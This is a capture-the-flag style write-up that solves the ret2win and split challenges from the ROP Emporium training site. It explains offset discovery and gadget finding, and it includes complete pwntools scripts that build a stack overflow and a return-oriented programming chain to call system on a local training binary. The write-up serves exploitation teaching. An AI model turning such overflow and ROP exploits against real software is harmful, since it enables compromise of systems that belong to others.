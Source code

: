 ## ROP Emporium Solutions
ROP Emporium is a web page for learning return-oriented programming through a series of challenges. In this post, we are going to solve all the challenges.

## ret2win
You can download the binary here: https://ropemporium.com/binary/ret2win.zip

We start executing the binary to see the output:

![image](https://github.com/user-attachments/assets/f2c6075a-2e4a-4f9e-a33a-cf3b6f190d8c)

It says that the buffer is 32 bytes long. Let's check it out!

![image](https://github.com/user-attachments/assets/a0734009-bf89-419b-81c2-9cfcfc97ebde)

We see that we have a segmentation fault. We have to find the offset for RIP:

![image](https://github.com/user-attachments/assets/957f6fa3-7da9-4cda-99fc-715e3482cd6f)

![image](https://github.com/user-attachments/assets/3ff907e5-06ad-481e-b260-f78446ef14b0)

![image](https://github.com/user-attachments/assets/0248e03a-9279-4525-8659-325243e46300)

So if we add "8" bytes plus "32" bytes, we have "40" bytes to overwrite the RIP.

And now? We disassemble the "main" function:

![image](https://github.com/user-attachments/assets/0fcffa46-4fe2-41e2-85c6-efecb945d41c)

We see a "pwnme" interesting function...

![image](https://github.com/user-attachments/assets/8d6e5508-08db-40dd-8f5a-eeb52dc0699d)

Here we can see the "memset" and "read" functions so here is where the vulnerability is found. We need to call a function to print the flag. We are gonna check the imported functions:

![image](https://github.com/user-attachments/assets/8ee79bfc-c3a1-4a67-9d44-93b11099e7de)

We see the function "ret2win".

![image](https://github.com/user-attachments/assets/56da11f4-8f04-4dc4-b42a-c7141dd2b328)

![image](https://github.com/user-attachments/assets/a19794bb-01db-4401-a639-69217e034631)

This function calls "cat flag.txt" so it is interesting. We create the exploit:

```python
from pwn import *

elf = context.binary = ELF('./ret2win')

ret2win = elf.symbols['ret2win']

p = process(elf.path)

offset = 40
filler = b"A" * offset
payload = filler + p64(ret2win)

p.sendline(payload)

p.interactive()
```

And we receive the flag!

![image](https://github.com/user-attachments/assets/bdf77cb5-82dd-44ae-8cd9-08b351c8c06a)


## split
You can download the binary here: https://ropemporium.com/binary/split.zip

We start executing the binary:

![image](https://github.com/user-attachments/assets/a91d55a6-a381-483b-ae2d-036124fd4197)

In this case, we don't receive information about the buffer size. We are going to send a large buffer of 200 bytes and see the registers:

![image](https://github.com/user-attachments/assets/f19d7d7e-1f63-4f57-abe0-346af7c7f3e0)

With 32 bytes we overwrite the RBP so we need to send 40 bytes of data. We begin searching interesting strings at the data section:

![image](https://github.com/user-attachments/assets/420fa4fe-c02f-4429-ba0e-a232c66d4c06)

![image](https://github.com/user-attachments/assets/95e7c82f-b086-4faf-9645-c860d9d1b4a4)

We see the "/bin/cat flag.txt" string. Looking at the imported functions we don't see a ret2win function but we still have the vulnerable "pwnme" function and the string that prints the flag. We find the function "usefulFunction", that contains a call to system:

![image](https://github.com/user-attachments/assets/343b041b-babf-4780-aa46-8a9d050ea73b)

![image](https://github.com/user-attachments/assets/603269a5-0d5e-4548-b5de-ec24361cb451)

We create an exploit, exploiting the vulnerable function "pwnme", and calling the system function of usefulFunction with the argument of the data section. Before that, we need a pop gadget for the rop chain:

![image](https://github.com/user-attachments/assets/67ee559f-e9b2-4c13-9769-5cc65e4f2bea)

And we craft the exploit:

```python
from pwn import *

elf = context.binary = ELF('./split')

p = process(elf.path)

offset = 40
filler = b"A" * offset
pop_rdi = p64(0x004007c3)
system = p64(0x000000000040074b)
bin_cat = p64(0x601060)
payload = filler + pop_rdi + bin_cat + system

p.sendline(payload)

p.interactive()
```
And we receive the flag:

![image](https://github.com/user-attachments/assets/bf2efb9a-4929-4828-8882-c93b7f6ea97c)

